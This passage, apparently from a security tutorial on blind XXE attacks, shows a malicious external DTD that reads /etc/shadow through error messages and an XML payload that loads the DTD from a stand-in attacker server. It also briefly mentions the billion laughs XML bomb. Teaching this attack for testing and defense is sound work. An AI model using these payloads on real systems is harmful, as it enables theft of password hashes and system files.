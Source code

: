 Easier way of exfiltrating data by using blind XXE is to force parser to return error description back to us. We can try to refer to non-existent file as a value of external entity so we will force File Not Found:
```
<!ENTITY % file SYSTEM "file:///etc/shadow">
<!ENTITY % ent "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/?%file;'>">
%ent;
%error;
```
We're using /etc/shadow content as a parameter in URL pointing to non-existent file. Now we can send object o the target machine to launch an attack.
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE examole [
	 <!ENTITY % xxe SYSTEM "http://server_of_attacker/xxe.dtd">
 %xxe;
]
```
This definition of DTD will send us content of a file by sending us one line of stack trace
It will look like this:
``java.io.FileNotFoundException: file:///nonexistent/CONTENT OF FILE THAT WE WANTED TO READ, AND MORE CONTENT FROM THAT FILE AND MORE CONTENT
It is just one line, it is long but still one line.

##### DoS
I won't write much about this due to nature of this vulnerability. At least 95% of bug bounty programs won't allow using this so I will just paste here some wikipedia links
Attack is called billion laughs attack or XML bomb.
https://en.wikipedia.org/wiki/Billion_laughs_attack
